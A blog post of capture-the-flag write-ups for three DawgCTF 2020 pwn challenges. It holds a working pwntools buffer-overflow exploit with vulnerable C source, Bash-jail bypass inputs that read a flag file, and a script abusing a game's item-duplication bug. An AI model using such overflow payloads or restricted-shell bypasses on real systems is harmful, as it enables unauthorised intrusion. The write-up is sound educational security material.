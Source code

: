 ```yaml
---
title: DawgCTF 2020: a few pwn writeups
slug: dawg-2020-pwn
date: 13/04/2020
---
```


Yesterday I spent a couple of hours on the [DawgCTF 2020](https://umbccd.io/).
I only had time to work on a few pwn tasks. The challenges were nothing special
but I wrote two [pwntools](https://github.com/Gallopsled/pwntools) scripts that
might be worth sharing.

All challenges are remote.


## Bof To The Top

This is a standard buffer overflow. Source code for the vulnerable binary was
given:

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

There is a comment that tells us how the binary was compiled. It is a 32-bit,
with no PIE and stack protection disable. We have no information regarding
ASLR.

The `get_audition_info` function is the vulnerable one. Indeed, `gets` is
insecure and leads to a stack-based buffer overflow. Lucky us, we will not even
have to inject a shellcode or anything in memory as we can use the `audition`
function that can `cat` the flag for us.

But there is something else! The `audition` function, that we plan to jump to,
receives two parameters. These two `int` variables must have a specific value,
otherwise `system` will not be called for us. One could think that we can
directly jump to the `system` call, that must be located at
`audition+something`, but this is not possible as `flag` will not be
initialized and `system` will be called with a bad pointer as parameter.

We definitely need to pass the `time` and `room` parameters. In order to do so,
we can prepare a payload that is similar to ret2libc. A standard ret2libc
payload looks like so: `AAAAAAAAAA...AAAAAA + SYSTEM_ADDR + RET_ADDR +
BIN_SH_ADDR`. First, there is enough data to reach `EIP`. Then, we overwrite
`EIP` with the address of the function we want to jump to. Finally, we add a
return address (a fake `EIP` save), and our parameters.

Here is the exploit script:

```python
from pwn import *


DEBUG = False

if not DEBUG:
    r = remote(
        host='ctf.umbccd.io',
        port=4000
    )
else:
    r = process([
        'gdb', '-q',
        '/macOS/bof',
    ])

audition = 0x08049182  # Found using nm (one could use pwn.elf too)
tiime = 1200  # First parameter
room_num = 366  # Second parameter

smash_after = 62  # Can be found using pwn.cyclic
payload = b'A' * smash_after + p32(audition) + b'LOOL' + p32(tiime) + p32(room_num)

if DEBUG:
    # r.sendline('b * 0x0804921d')
    r.sendline('r')

log.info(r.recvuntil('name?\n'))
r.sendline(payload)  # When the overflow happens

log.info(r.recvuntil('ing?\n'))
r.sendline('whocares')  # We don't care about the second buffer

if DEBUG:
    r.interactive()
else:
    log.success(r.recvline().decode())  # Outputs the flag
```

The offsets are strictly the same locally and remotely. We don't care about
ASLR as we are jumping to a non-randomized offset. We get our flag immediately:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] b"Welcome to East High!\nWe're the Wildcats and getting ready for our spring musical\nWe're now accepting signups for auditions!\nWhat's your name?\n"
[*] b'What song will you be singing?\n'
[+] DawgCTF{wh@t_teAm?}
```


## Nash

This challenge is some kind of Bash jail. There is a `flag.txt` file in the
current directory. We have to find a way to read it **without using any
space**, as they are stripped from our input.

The first thing that came to my mind is the [`IFS` trick](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-forbidden-spaces):

```
nash> cat${IFS}flag.txt`
```
Unfortunately, `IFS` is not set, and the `{}` are also stripped. A few
Google searchs later, I found another payload:

```
nash> `<flag.txt`
/bin/bash: line 1: DawgCTF{L1k3_H0W_gr3a+_R_sp@c3s_Th0uGh_0mg}: command not found
```

I'm not a Bash guy but from what I understand, the `<` allows to retrieve the
content of `flag.txt`. Then, the backticks introduce a subcommand. Thus, Bash
tries to run a command that is our flag.


## Tom Nook the Capitalist Raccoon

This is an Animal Crossing themed challenge. We can do some business with our
good friend Tom Nook, trading tarantulas for bells... But the only thing that
we really want to buy is the flag. Which costs 420000 bells. That is a lot.

We will not be able to make that much money the legal way so let's be an
average Animal Crossing player and cheat.

Source code is not provided but we have the [compiled binary](https://github.com/toomanybananas/dawgctf-2020-writeups/raw/master/pwn/animal_crossing/animal_crossing).
To be honest, I did not even have to reverse it as I found the bug just by
playing with the remote instance. The actual C source code is [available here](https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/animal_crossing/animal_crossing.c)
if you want to make an extended study.

The bug is as follows:

* The game starts
* You buy an item (let's say a tarantula, as it is worth a lot)
* Your inventory is now full
* You sell the tarantula
* It is not removed from you inventory, but you get the bells
* You sell the tarantula
* It is not removed from your inventory, but you get the bells
* ...
* You sell any other item to free some inventory space
* You buy the flag

```python
from pwn import *


r = remote(
    host='ctf.umbccd.io',
    port=4400
)

# Buy
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')

# A tarantula
log.info(r.recvuntil('\n').decode())
r.sendline('2')

# Inventory is now full

# Sell A LOT of tarantulas
for i in range(100):
    log.info(r.recvuntil('Choice: ').decode())
    r.sendline('1')
    log.info(r.recvuntil('\n').decode())
    r.sendline('5')

# You are now rich

# Sell random item to free some space
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

# Buy flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')
log.info(r.recvuntil('\n').decode())
r.sendline('6')

# Display inventory in order to display flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

r.interactive()
```

Tom Nook is not amused.

![Angry Tom Nook](assets/dawg-2020/nook.png)


## Wrapping up

Too bad I could not spend much more time on this CTF. The organizers
published [all the challenges](https://github.com/toomanybananas/dawgctf-2020-writeups)
for us to replay at home fortunately.
